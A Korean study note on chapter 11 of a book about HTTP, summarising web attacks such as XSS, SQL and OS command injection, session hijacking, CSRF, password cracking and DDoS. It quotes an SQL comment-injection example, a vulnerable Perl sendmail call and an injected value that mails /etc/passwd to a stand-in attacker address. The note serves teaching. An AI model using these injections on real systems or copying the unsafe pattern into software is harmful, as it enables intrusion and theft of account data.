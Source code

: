 ```yaml
---
title: 그림으로 배우는 HTTP 스터디 5
date: 2020-02-21
category: "All"
draft: true
---
```


## "그림으로 배우는 HTTP" 스터디 5

### 11장: 웹 공격 기술

#### 크로스 사이트 스크립팅(XSS)

- 크로스 사이트 스트립팅은 취약성이 있는 웹 사이트를 방문한 사용자의 브라우저에서 부정한 HTML 태그나, JavaScript 등을 공격자가 악의적으로 동작시키는 공격이다.

#### SQL Injection

- 먼저 SQL이란, 관계형 데이터베이스 관리 시스템에 대해서 조작하는 데이터베이스 언어이다. 그리고 SQL 인젝션은 이 언어를 이용하여 웹 애플리케이션을 이용하고 있는 데이터베이스에 SQL을 부정하게 실행하는 공격을 말한다. 예를들면,  
  `SELECT * FROM bookTBl WHERE author='우에노 센'--' and flag=1;`에서 인젝션이 발생하는 원인은, '--' 문자의 삽입이다. 이로 인해서 뒤에 오는 내용은 주석처리가 되고 `flag=1` 조건은 실행되지 않는다.

#### OS Command Injection

- OS 커맨드 인젝션이란 웹 애플리케이션을 경유하여 OS 명령을 부정하게 실행하는 공격을 말한다. 예를 들면,

  ``` javascript
  my $adr = $q -> param('mailaddress');
  open(MAIL, "| /usr/sbin/sendmail $adr");
  print MAIL "From: info@example.com\n"
  ```

- 위와 같은 스크립트에서 공격자가 메일 주소 값 $adr에 `; cat /etc/passwd | mail hack@example.jp`를 보낸다면,  
  첫번째 ';'세미콜론으로 인해 복수의 커맨드가 실행된다. 즉, sendmail 커맨드가 먼저 실행되고, 뒤이어 `cat /etc/passwd | mail hack@example.jp`가 실행된다. 결과적으로 `/etc/passwd`라는 리눅스 계정 정보가 포함된 파일이 `hack@example.jp` 메일로 송신된다.

#### HTTP 헤더 Injection

- HTTP 헤더 인젝션이란 공격자가 리스폰스 헤더 필드에 개행 문자 등을 삽입함으로써 임의의 리스폰스 헤더 필드나 바디를 추가하는 수동적 공격을 말한다.

#### 부적절한 에러 메세지

- "아이디가 등록되어 있지 않습니다" 혹은 "비밀번호가 틀립니다"와 같은 에러 메세지에는 문제가 있다. 왜냐하면 이를 통해서 공격자가 "음! 아이디가 등록되어 있지 않으니 아이디를 바꿔서 다시 시도해봐야겠군!" 혹은 "음! 비밀번호가 틀렸다는 말은 아이디는 존재한다는 의미로군!"과 같이 유익한 정보를 얻을 수 있기 때문이다.  
  그렇기 때문에 "아이디 혹은 비밀번호를 다시 확인해주세요"와 같이 별다른 정보를 얻을 수 없도록 에러메세지를 작성해야 한다.

#### 세션 하이잭

- 세션 하이잭은 공격자가 어떠한 방법으로 유저의 세션 ID를 탈취해서 악용하는 것으로, 공격자가 유저인 것처럼 위장하여 공격하는 것을 말한다. 이런 세션 하이잭의 예시로는, 공격자가 크로스 사이트 스크립팅을 통해 `documment.cookie`라는 JavaScript 코드를 사용하여 세션 ID를 포함한 쿠키를 탈취할 위험이 있다. 이와 같이 XSS를 이용한 세션 하이잭을 막기 위해서는 쿠키의 속성으로 `HttpOnly` 속성을 지정해주면 된다.

#### 크로스 사이트 리퀘스트 포저리(CSRF)

- 크로스 사이트 리퀘스트 포저리란, 인증된 유저가 의도하지 않은 개인정보나 설정정보 등을 공격자가 설치해 둔 함정에 의해 어떤 상태를 갱신하는 처리를 강제로 실행시키는 공격으로 수동적 공격이다. 유저의 자동로그인과 같이 "인증된 상태"를 이용해서 그 브라우저를 통해 서버에 무엇인가 call을 요청함으로써 원하는 정보를 취득하거나 이득을 보는 공격이다.

#### 패스워드 크래킹

- **무차별 대입 공격** : 비밀번호 시스템에서 취할 수 있는 모든 경우의 수를 무차별적으로 다 때려박는 방식이다. 시간이 얼마가 걸리든 언젠가는 통과한다.  
- **사전 공격** : 무차별적으로 다 때려박는 게 아니라 사전에 사용자들이 비밀번호로 입력할만한 후보들을 추려서 대입해보는 방식이다. 만약 풀릴경우 무차별 대입 공격보다 훨씬 효율적이지만 아예 통과 못할 수도 있다.  
- **레인보우 테이블** : 레인보우 테이블은 평문과 그에 대응하는 해시 값으로 구성된 데이터베이스 테이블로, 사전에 이 테이블을 준비한 후 무차별 대입 공격이나 사전 공격시에 레인보우 테이블에서 해시 값을 검색해서 이에 맞는 평문을 이끌어 냄으로써 시간을 단축할 수 있다.

#### DDOS

- 먼저 DOS란, 타겟 서버에 대량의 엑세스를 집중시킴으로써 부하를 걸어 서버의 리소스를 다 소비하게 해서 사실상 서비스 정지상태로 만드는 공격을 말한다. 그리고 이 공격을 여러 대의 컴퓨터로 수행하는 것을 DDOS 공격이라고 한다.

